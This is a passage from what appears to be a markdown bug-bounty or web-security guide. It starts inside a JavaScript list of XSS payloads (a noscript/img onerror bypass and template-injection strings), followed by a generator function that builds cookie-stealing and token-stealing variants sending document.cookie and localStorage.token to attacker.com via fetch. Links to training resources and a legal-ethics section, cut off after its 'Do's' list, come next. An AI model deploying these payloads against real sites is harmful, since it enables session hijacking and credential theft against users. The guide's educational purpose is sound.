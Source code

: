 ```javascript
    "<noscript><p title=\"</noscript><img src=x onerror=alert(1)>\">",
    
    // Template injection
    "{{constructor.constructor('alert(1)')()}}",
    "${alert(1)}",
    "#{alert(1)}",
];

function generateXSSPayloads(customCode = "alert(1)") {
    return XSS_PAYLOADS.map(payload => 
        payload.replace(/alert\(1\)/g, customCode)
    );
}

// Generate payloads that steal cookies
const cookieStealers = generateXSSPayloads(
    "fetch('https://attacker.com?c='+document.cookie)"
);

// Generate payloads that steal tokens
const tokenStealers = generateXSSPayloads(
    "fetch('https://attacker.com?t='+localStorage.token)"
);
```

---

## 🎓 Learning Resources

### Recommended Reading:
1. **OWASP Top 10** - https://owasp.org/www-project-top-ten/
2. **PortSwigger Web Security Academy** - https://portswigger.net/web-security
3. **HackerOne Hacktivity** - https://hackerone.com/hacktivity
4. **Bug Bounty Bootcamp** by Vickie Li

### Practice Platforms:
- **HackTheBox** - https://www.hackthebox.eu/
- **TryHackMe** - https://tryhackme.com/
- **PentesterLab** - https://pentesterlab.com/
- **WebGoat** - OWASP training app

---

## ⚠️ Legal & Ethical Guidelines

### Do's ✅
- Only test on authorized bug bounty programs
- Follow responsible disclosure
- Document everything thoroughly
- Report vulnerabilities promptly
- Respect rate limits and scope
